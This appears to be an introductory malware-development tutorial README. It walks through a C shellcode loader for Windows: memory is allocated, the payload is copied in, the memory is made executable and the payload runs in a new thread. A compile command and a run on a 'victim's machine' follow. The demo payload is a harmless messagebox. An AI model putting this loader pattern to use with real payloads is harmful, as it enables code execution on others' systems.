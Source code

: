 # 01-intro

A simple malware in C that will launch our payload: `Hello world` messagebox.   

If you want to run payload in the memory of the process (current), we have to do couple of things. We have to create a new memory buffer, copy our payload into the buffer, and a start executing this buffer.    

The first we do we allocate new memory region in a process and we store the address in `mem` variable:    

```cpp
mem = VirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

As you can see, memory region is readable and writeable.    

Then "copy" our payload to this memory buffer:    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

And then we set our buffer to be executable:    

```cpp
operation_status = VirtualProtect(mem, sizeof(my_payload), PAGE_EXECUTE_READ, &old_protect);
```

Finally, run our payload as the separate new thread in a process:    

```cpp
if ( operation_status != 0 ) {
  // execute the payload
  th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

Compile example:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_07-42.png)    

Run on victim's machine (Windows 10/Windows 11):    

```powershell
.\hack.exe
```

![img](./img/2024-05-03_07-44.png)    

As we can see, everything is worked as expected.    